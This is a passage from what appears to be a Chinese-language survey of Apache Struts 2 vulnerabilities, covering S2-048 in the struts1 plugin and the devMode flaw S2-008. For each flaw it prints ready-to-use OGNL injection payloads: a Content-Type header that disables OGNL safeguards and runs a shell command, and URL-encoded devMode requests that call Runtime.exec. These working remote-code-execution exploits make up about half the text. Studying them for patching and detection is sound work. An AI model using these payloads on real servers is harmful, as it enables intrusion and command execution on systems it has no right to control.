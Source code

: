 <br>

**八 S2-048**

受影响的Struts版本：Apache Struts 2.3.x系列中启用了struts2-struts1-plugin插件的版本

这个漏洞主要问题出在struts2-struts1-plugin这个非默认的插件包上，由于struts2-struts1-plugin 包中的 “Struts1Action.java” 中的 execute 函数可以调用 getText() 函数，这个函数刚好又能执行OGNL表达式，同时这个 getText() 的 参数输入点，又可以被用户直接进行控制，如果这个点被恶意攻击者所控制，就可以构造恶意执行代码，从而实现一个RCE攻击。该漏洞利用的payload 与s2-045其实都是一样的，只是触发点不同和影响范围不同而已。

```
Content-Type:%`{`(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?`{`'cmd.exe','/c',#cmd`}`:`{`'/bin/bash','-c',#cmd`}`)).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())`}`
```



**九 DevMode**

影响版本：Struts 2.1.0–2.5.1

S2-008漏洞也是一个devMode下的远程执行漏洞，由于当时Apache还没有专门的声明，要求开发者在发布系统的时候必须关闭devMode，因此这个漏洞当时还是被他们给予了CVE编号，并在后续比较迟的时候增加了对其利用方式的过滤处理。CVE编号授予的时候，Struts2的最新版本为2.3.1，但在其后直至2.3.28之前的版本都能够触发这个漏洞，从2.3.29开始，官方增加了一个检查项——禁止链式表达式，这才阻止了特定ognl表达式的执行。但是不得不说该漏洞一直存在，只是利用条件变得越来越苛刻。

当struts.xml或struts.properties配置文件中

```
&lt; constant name=“struts.devMode” value=“true” /&gt;
```

便会触发相应漏洞。

EXP1:

```
http://localhost:8080/test02/Login.action?debug=command&amp;expression=%23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d%3dfalse%2c%23f%3d%23_memberAccess.getClass%28%29.getDeclaredField%28%22allowStaticMethodAccess%22%29%2c%23f.setAccessible%28true%29%2c%23f.set%28%23_memberAccess%2ctrue%29%2c%23a%3d@java.lang.Runtime@getRuntime%28%29.exec%28%22whoami%22%29.getInputStream%28%29%2c%23b%3dnew java.io.InputStreamReader%28%23a%29%2c%23c%3dnew java.io.BufferedReader%28%23b%29%2c%23d%3dnew char%5b50000%5d%2c%23c.read%28%23d%29%2c%23genxor%3d%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%2c%23genxor.println%28%23d%29%2c%23genxor.flush%28%29%2c%23genxor.close%28%29
```

EXP2:[](http://localhost:8080/test02/Login.action?debug=command&amp;expression=%23application)

```
http://localhost:8080/test02/Login.action?debug=command&amp;expression=%23application
```

[](http://localhost:8080/test02/Login.action?debug=command&amp;expression=%23application)

